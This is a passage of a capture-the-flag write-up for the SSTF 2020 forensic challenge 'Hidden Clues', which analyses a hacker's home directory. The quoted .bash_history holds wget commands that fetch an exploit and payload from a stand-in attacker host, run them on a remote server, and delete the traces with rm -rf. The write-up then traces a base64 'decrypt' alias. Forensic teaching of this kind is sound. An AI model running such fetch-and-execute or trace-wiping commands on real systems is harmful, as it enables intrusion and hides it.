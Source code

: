 full and final code : [stegano.py](https://github.com/snwox/Writeup/blob/master/CTF/2020/SSTF/stegano/stegano.py)

## FORENSIC
### Hidden Clues | 50pt | [/home](https://github.com/snwox/Writeup/tree/master/CTF/2020/SSTF/forensic/home)
Hacker's home directory is given.
#### /.bash_history
```sh
whoami

id

pwd

wget http://hackerserver.doesnt.exist/exploit_x64

chmod +x exploit_x64

wget http://hackerserver.doesnt.exist/payload

decrypt payload > prs.py

./exploit_x64 --server hiddenclues.sstf.site --port 13579 --upload "prs.py"

./exploit_x64 --server hiddenclues.sstf.site --port 13579 --run "python prs.py" --remote_port 24680

rm -rf exploit_x64 prs.py

exit
```
Hmm.. he  downloaded **exploit_x64** and **payload**, decrypted payload to **prs\.py** using **decrypt** command, uploaded **prs\.py** on **hiddenclues.sstf.site:13579** , ran **prs\.py** on that server and removed.

I checked **hiddenclues.sstf.site**: **13579** and **24680**. Port ~~**13579 died**~~ but port **24680** is still alive
#### nc hiddenclues.sstf.site 24680
```
password :
```
I don't know password. But 
```
decrypt payload > prs.py
```
In this part, I thought decrypt command may be alias 
#### /.bashrc
```
~~~
# some more ls aliases

alias ll='ls -alF'

alias la='ls -A'

alias l='ls -CF'

alias decrypt='base64 -i -d'

~~~
```
It's right. so I can get prs.py by decrypting **payload** with base64.
```
$base64 -i -d payload > payload_decrypted
```